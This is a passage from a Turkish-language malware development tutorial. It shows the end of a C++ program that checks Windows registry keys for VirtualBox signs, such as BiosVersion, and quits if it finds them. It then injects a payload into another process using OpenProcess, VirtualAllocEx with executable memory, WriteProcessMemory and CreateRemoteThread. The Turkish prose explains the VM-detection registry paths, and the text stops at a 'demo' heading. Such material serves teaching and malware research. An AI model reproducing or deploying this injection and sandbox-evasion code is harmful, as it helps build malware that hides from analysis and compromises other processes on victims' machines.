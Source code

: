 ```cpp
  }

  if (reg_key_compare(HKEY_LOCAL_MACHINE, 
  "SYSTEM\\CurrentControlSet\\Control\\SystemInformation",
  "BiosVersion", "VirtualBox")) {
    printf("VirtualBox VM BIOS version detected :(\n");
    return -2;
  }

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, 
  (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

Gördüğünüz gibi, bu sadece Windows Registry üzerinden bazı VM VirtualBox tespit hileleri içeren [klasik bir payload enjeksiyonu](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html).    

Kontrol edilecek yol: `HKLM\HARDWARE\ACPI\FADT\VBOX_`:   

![av](./images/48/2022-04-09_17-12.png){width="80%"}    

`SystemProductName` kayıt anahtarını    
`HKLM\SYSTEM\CurrentControlSet\Control\SystemInformation`     
yolundan enumerate ederek VirtualBox stringi ile karşılaştırıyoruz:     

![av](./images/48/2022-04-09_17-19.png){width="80%"}    

Aynı yoldan BIOS sürüm anahtarını (`BiosVersion`) da kontrol ediyoruz:     

![av](./images/48/2022-04-09_17-21.png){width="80%"}    

Unutmayın ki tüm durumlarda anahtar adları büyük/küçük harf duyarsızdır (case-insensitive).    

### demo
